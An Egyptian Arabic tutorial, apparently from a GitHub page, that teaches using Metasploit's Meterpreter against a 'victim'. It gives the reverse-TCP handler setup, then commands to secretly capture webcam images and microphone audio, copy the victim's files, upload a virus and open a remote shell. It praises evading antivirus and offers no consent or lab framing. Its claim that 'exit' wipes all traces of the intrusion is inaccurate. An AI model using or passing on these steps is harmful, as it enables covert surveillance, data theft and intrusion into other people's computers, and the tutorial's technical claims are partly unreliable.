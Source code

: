 
#### **🚀 ما هو Meterpreter؟**

 هو شيل (Shell) تفاعلي بيشتغل بعد ما يتم الاختراق، وبيوفر أدوات قوية للتحكم الكامل في الجهاز المخترَق بدون ما يلاحظ الضحية.

✳️ **باختصار:**

- بيشتغل **في الذاكرة (RAM)** بدون ما يسيب أثر على القرص الصلب.
- بيتيح **التحكم الكامل في الجهاز المخترَق** بدون الحاجة لرفع برامج إضافية.
- بيساعدك على **تنفيذ أوامر، رفع وتحميل ملفات، تشغيل كاميرا، تسجيل صوت، وغيرهم**.

---

### **💡 الخلاصة بالمصري:**

** ده الريموت كنترول اللي هتتحكم بيه في جهاز الضحية** بعد ما يدخل الفيروس عنده.

- تقدر **تفتح كاميرته، تسمع صوته، تاخد بياناته، أو حتى تمسح آثارك من الجهاز**.

---

## **🛠️ مميزات Meterpreter**

✅ **مش بيشتغل كبرنامج منفصل**، لكنه بيبقى داخل **ذاكرة الجهاز**.  
✅ **بيوفر أدوات قوية** زي تسجيل الصوت، تشغيل الكاميرا، وسرقة البيانات.  
✅ بيتيح **تحميل ورفع الملفات** من وإلى جهاز الضحية.  
✅ **بيقدر يخدع برامج الحماية** لأنه مش بينشئ ملفات على الهارد.

---

### **🎯 خطوات عملية لاستخدام Meterpreter**

🚀 **الخطوة 1:** تشغيل Meterpreter بعد نجاح الاختراق  
بعد ما الضحية يشغل الفيروس، بنستخدم **MSFConsole** لاستقبال الجلسة:

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.10
set LPORT 4444
exploit
```

بمجرد الاتصال، هتظهر لك جلسة Meterpreter:

```bash
meterpreter >
```

🎯 **كده أنت داخل على جهاز الضحية وجاهز للتحكم فيه بالكامل!**

---

🚀 **الخطوة 2:** تنفيذ أوامر داخل جهاز الضحية  
📌 **معرفة معلومات النظام**

```bash
sysinfo
```

🔹 بيعرض إصدار الويندوز، المعالج، الرامات...

📌 **معرفة المستخدم الحالي**

```bash
getuid
```

🔹 بيعرض اسم المستخدم اللي شغال بيه الضحية.

📌 **فتح الكاميرا وتشغيلها**

```bash
webcam_list
webcam_snap
```

🔹 أول أمر بيعرض الكاميرات المتاحة، والتاني بياخد صورة باستخدام الكاميرا.

📌 **تسجيل الصوت من ميكروفون الضحية**

```bash
record_mic -d 10
```

🔹 بيبدأ تسجيل الصوت لمدة 10 ثواني.

📌 **تحميل ملفات من جهاز الضحية**

```bash
download C:\\Users\\victim\\Desktop\\secret.txt
```

🔹 بينسخ ملف من جهاز الضحية لجهازك.

📌 **رفع ملفات لجهاز الضحية**

```bash
upload my_virus.exe C:\\Users\\victim\\Desktop\\
```

🔹 بترفع ملف من جهازك لجهاز الضحية.

📌 **فتح سطر الأوامر (CMD) على جهاز الضحية**

```bash
shell
```

🔹 بيشغل **Command Prompt** للضحية، وتقدر تنفذ أوامر النظام بالكامل.

📌 **إخفاء الاتصال والخروج بدون ما الضحية يلاحظ**

```bash
background
```

🔹 بيخلي الجلسة في الخلفية عشان تقدر ترجع لها بعدين.

📌 **حذف آثار الاختراق والخروج نهائيًا**

```bash
exit
```

🔹 بيقفل الجلسة وينظف أي آثار للاختراق.

---

### **💡 الخلاصة بالمصري:**

1️⃣ بعد ما الفيروس يدخل جهاز الضحية، **Meterpreter بيديك تحكم كامل فيه**.  
2️⃣ تقدر **تفتح الكاميرا، تسجل الصوت، تاخد الملفات، أو حتى ترفع ملفات خبيثة**.  
3️⃣ **مش بيظهر في برامج الحماية** لأنه بيشتغل في الرام مش على الهارد.  
4️⃣ تقدر **تسيب الجلسة مفتوحة في الخلفية وتدخل تاني وقت ما تحب**.